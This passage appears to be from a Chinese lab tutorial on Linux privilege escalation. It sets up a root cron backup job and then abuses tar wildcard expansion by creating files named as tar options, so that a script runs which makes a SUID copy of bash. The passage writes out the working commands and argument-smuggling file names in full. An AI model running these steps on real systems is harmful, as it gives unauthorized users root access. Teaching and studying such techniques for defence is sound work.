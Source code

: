 这里创建一个压缩备份的定时任务，这个定时任务在大部分服务器中存在还是比较多的，由于服务器中的数据较为重要，所以多数都会使用到一个压缩备份的定时任务，同时如果在一个文件夹中需要备份的文件较多，管理者不可能一个一个压缩，那么就会使用到通配符来辅助压缩。

这里我设置的是：执行tmp下面的bf.sh。

```
vi /etc/crontab   ##编辑定时任务
* * * * * root /tmp/bf.sh  ##创建定时任务
cat /etc/crontab   ##查看定时任务
```

![image-20230404133555153](https://s2.loli.net/2023/04/05/VOktDYQLHcshBP1.png)

### 查看效果

可以看到，这里成功压缩了文件，注意这个条件的确实是我备份的，我测试完又删除的，所以导致前后时间不对应。

![image-20230404134208736](https://s2.loli.net/2023/04/05/oMajrKdbzRm4pIf.png)

### 提权操作

关于这个提权，web权限账户基本上不太可能能进行提权，同时普通用户若管理员设置备份的文件夹未给写入权，那么也GG，但是多数应该不太会出现这个情况，不过也不保证会排查。

#### 切换普通用户

这里切换到普通用户，然后查看到存在root创建的定时任务，那么就可以利用这个定时任务进行提权，同时我们需要查看刚刚创建的执行脚本，对里面的内容进行分析，然后再去执行提权。

![image-20230404134355413](https://s2.loli.net/2023/04/05/6cAjg1GaiJZEI2x.png)

#### 执行命令

由于备份的时候是备份123目录下的文件，那么我们执行的命令就需要再123命令下进行操作。

定时任务打包时使用了*将整个文件夹下的文件打包，而当系统真正执行打包操作时，会将目录下的所有文件名一个一个传参给*执行打包操作。前几个文件都没问题，但是当打包到--checkpoint=1文件和--checkpoint-action=exec=sh test.sh文件时，执行的相当于执行：

```
tar czf /tmp/backup.tar.gz --checkpoint=1 --checkpoint-action=exec=sh test.sh
```

而  --checkpoint、--checkpoint-action正好是tar命令的参数，打包到这里就会导致tar命令直接把--checkpoint=1和--checkpoint-action=exec=sh test.sh两个文件名当做参数执行，而不打包文件。--checkpoint-action=exec=sh  test.sh参数的意思是执行同目录下test.sh文件，test.sh文件内容又是把  bin/bash拷贝给/tmp/bash并给/tmp/bash赋SUID权限。此时我们再执行/tmp/bash就享有了suid权限，所以这里是一环套一环的。

```
echo "" > --checkpoint=1   
echo "" > "--checkpoint-action=exec=sh test.sh"   ##执行test.sh文件
echo 'cp /bin/bash /tmp/bash;chmod +s /tmp/bash' > test.sh  ##将/bin/bash复制到/tmp下，并提权SUID权限，同时将命令写入到test.sh脚本中
chmod +x test.sh  ##赋予执行权限
```

![image-20230404134737250](https://s2.loli.net/2023/04/05/4CjU3rVRnZDLQeG.png)

#### 查看效果
